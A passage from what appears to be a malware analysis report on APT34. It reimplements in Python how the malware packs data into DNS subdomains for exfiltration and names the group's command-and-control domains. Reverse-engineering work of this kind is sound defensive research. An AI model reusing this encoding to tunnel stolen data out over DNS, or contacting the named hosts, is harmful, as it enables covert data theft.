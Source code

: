 [![28.PNG](/assets/Malware-Analysis/Apt34/28.PNG)](/assets/Malware-Analysis/Apt34/28.PNG)

For simplicity we consider the data to be send not compressed . The generated subdomain will be like :


```python
seed = 6540
AgentID  = 203
SendAndReceive = 1 
SendDataSize = 38
SendByteIndex = 0
val = SendDataSize - SendByteIndex;
num = min(12, val);
SendData = b'9We Are Breaking APT34 In This Report!' # 9 indicates that it's not compressed 
SendData = base64.b32encode(SendData[SendByteIndex:num]).replace(b"=",b"").lower().decode()
data =  PadLeft(ConvertIntToDomain(SendByteIndex),3,CharsDomain[0]) + PadLeft(ConvertIntToDomain(SendDataSize),3,CharsDomain[0]) + SendData
shuffle  = Shuffle(seed) 
domain = ConvertIntToDomain(SendAndReceive) + ConvertIntToDomain(AgentID) + data
Domain = MapBaseSubdomainCharacters(domain, shuffle) + PadLeft(ConvertIntToCounter(seed),3,CharsCounter[0]) + "."
print(Domain + " [ joexpediagroup.com | asiaworldremit.com  | uber-asia.com ]")
```

    1mcllll1zvmu259z1hxnnlsfnawssgad.
    

If it isn't the first time to send part of the data . The generated subdomain will be like : :


```python
seed = 6541
AgentID  = 203
SendAndReceive = 3
SendDataSize = 38
SendByteIndex = 12  # send next 12 bytes 
val = SendDataSize - SendByteIndex;
num = min(12, val);
SendData = b'9We Are Breaking APT34 In This Report!'
SendData = base64.b32encode(SendData[SendByteIndex:SendByteIndex+num]).replace(b"=",b"").lower().decode()
data =   PadLeft(ConvertIntToDomain(SendDataSize),3,CharsDomain[0]) + SendData
shuffle  = Shuffle(seed) 
domain = ConvertIntToDomain(SendAndReceive) + ConvertIntToDomain(AgentID) + data
Domain = MapBaseSubdomainCharacters(domain, shuffle) + PadLeft(ConvertIntToCounter(seed),3,CharsCounter[0]) + "."
print(Domain + " [ joexpediagroup.com | asiaworldremit.com  | uber-asia.com ]")
```
